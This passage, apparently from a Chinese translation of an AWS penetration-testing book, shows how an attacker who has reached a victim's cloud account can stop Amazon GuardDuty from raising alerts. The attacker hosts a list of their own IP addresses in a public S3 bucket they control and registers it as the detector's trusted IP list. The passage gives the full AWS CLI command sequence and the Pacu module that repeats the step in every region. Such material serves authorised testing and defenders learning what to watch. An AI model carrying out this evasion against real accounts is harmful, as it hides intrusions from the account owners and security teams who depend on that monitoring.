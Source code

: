 在 AWS web 控制台中显示 GuardDuty 的受信任 IP 列表和威胁列表

在这个屏幕截图中，我们可以看到有一个可信 IP 列表和威胁列表部分。分别，它们基本上是白名单和黑名单 IP 地址的一种方式，告诉 GuardDuty 要么忽略来自这些 IP 地址（白名单）的发现，要么触发来自这些 IP 地址（黑名单）的所有内容。

作为一名攻击者，这是令人惊讶的。我们可以在不触发任何警报的情况下将自己的 IP 地址列入白名单，然后在环境中发疯，从那时起就不用担心安全问题。

当您尝试将自己添加为受信任的 IP 时，可能会遇到一个问题，即 GuardDuty 允许的每个区域最多有一个受信任的 IP 列表。这意味着，如果我们的目标已经在使用受信任的 IP 列表，我们将不得不稍微修改我们的攻击。首先要做的是确定他们实际上是否在使用受信任的 IP 列表。请注意，GuardDuty 基于每个区域进行监控，因此可能需要对每个可用区域中的每个 GuardDuty 检测器重复这些步骤。我们可以通过运行以下 AWS**命令行界面**（**CLI**命令）来实现：

```
   aws guardduty list-detectors 
```

这将返回当前区域中 GuardDuty 检测器的 ID。在我们的例子中，结果是`e2b19kks31n78f00931ma8b081642901`。如果没有返回探测器 ID，则表示当前区域中未启用 GuardDuty，如果您试图绕过它，这是一个好消息！然后，我们将使用以下命令检查此检测器，以查看是否已经存在与其关联的受信任 IP 列表：

```
 aws guardduty list-ip-sets --detector-id e2b19kks31n78f00931ma8b081642901 
```

如果已经存在受信任的 IP 集，将返回其 ID，否则将返回空列表。我们将研究的第一个场景假设他们已经没有使用可信 IP 列表。这是我们最好的情况。

要启动此攻击，我们需要在本地计算机上创建一个文本文件，其中包含要列入白名单的 IP 地址。我们将把它命名为`ip-whitelist.txt`文件。然后，由于 GuardDuty 要求包含 IP 白名单的文件托管在 S3 中，因此我们将该文件上载到我们自己的攻击帐户内的 S3 存储桶中，并公开该文件。这样做的原因是，我们始终可以控制正在使用的白名单，甚至可以在约定期间根据需要对其进行修改。对于本例，我们将说我们使用的是`bucket-for-gd-whitelist`S3 存储桶。首先，我们将使用以下命令将文件上载到 bucket：

```
 aws s3 cp ./ip-whitelist.txt s3://bucket-for-gd-whitelist
```

接下来，我们要确保我们的文件是公开可读的，以便 GuardDuty 在将其设置为白名单时可以根据需要读取它。我们可以使用以下命令执行此操作：

```
aws s3api put-object-acl --acl public-read --bucket bucket-for-gd-whitelist --key ip-whitelist.txt 
```

请记住，存储桶本身或您的帐户上的设置可能会阻止公共对象，因此，如果您在运行此命令时收到拒绝访问消息，或者该命令似乎不起作用，请确保存储桶或帐户的公共访问设置已正确配置为允许公共对象。

现在我们的文件应该可以在这个 URL 公开访问（仅此示例）：[https://s3.amazonaws.com/bucket-for-gd-whitelist/ip-whitelist.txt](https://s3.amazonaws.com/bucket-for-gd-whitelist/ip-whitelist.txt) 。

接下来，我们将为前面使用以下命令识别的 GuardDuty 检测器创建新的受信任 IP 列表：

```
 aws guardduty create-ip-set --detector-id e2b19kks31n78f00931ma8b081642901 --format TXT --location https://s3.amazonaws.com/bucket-for-gd-whitelist/ip-whitelist.txt --name Whitelist --activate
```

如果成功，您将收到一个响应，其中包括新创建的受信任 IP 集的 ID。现在，就这样。您的 IP 位于当前区域中 GuardDuty 的活动受信任 IP 列表中，这意味着 GuardDuty 不会为其生成调查结果（从 GuardDuty 列表页面）。

正如您可能已经猜到的，有一个 Pacu 模块来自动化这个过程。从 Pacu，我们可以使用`guardduty__whitelist_ip`模块在每个区域执行此操作。我们可以使用以下命令执行此操作：

```
 run guardduty__whitelist_ip --path https://s3.amazonaws.com/bucket-for-gd-whitelist/ip-whitelist.txt
```

完成后，Pacu 将在每个 AWS 地区的 GuardDuty 中将您的 IP 地址列入白名单。
